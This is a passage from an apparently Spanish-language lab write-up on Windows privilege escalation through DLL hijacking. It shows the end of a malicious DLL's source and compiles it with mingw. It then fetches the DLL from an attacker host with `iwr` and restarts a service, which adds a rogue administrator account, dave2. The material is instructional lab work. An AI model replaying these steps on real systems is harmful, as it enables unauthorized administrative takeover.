 ```
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

Lo compilamos:

```
kali@kali:~$ x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll
```

Y lo transportamos sobre el directorio en cuestión:

```
PS C:\Users\steve> cd Documents

PS C:\Users\steve\Documents> iwr -uri http://192.168.119.3/myDLL.dll -Outfile myDLL.dll

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
daveadmin                DefaultAccount           Guest
offsec                   steve                    WDAGUtilityAccount
The command completed successfully.
```

<br />

```
PS C:\Users\steve\Documents> Restart-Service BetaService
WARNING: Waiting for service 'BetaService (BetaService)' to start...
WARNING: Waiting for service 'BetaService (BetaService)' to start...

PS C:\Users\steve\Documents> net user
User accounts for \\CLIENTWK220

-------------------------------------------------------------------------------
Administrator            BackupAdmin              dave
dave2                    daveadmin                DefaultAccount
Guest                    offsec                   steve
WDAGUtilityAccount
The command completed successfully.

PS C:\Users\steve\Documents> net localgroup administrators
...
Administrator
BackupAdmin
dave2
daveadmin
offsec
The command completed successfully.
```
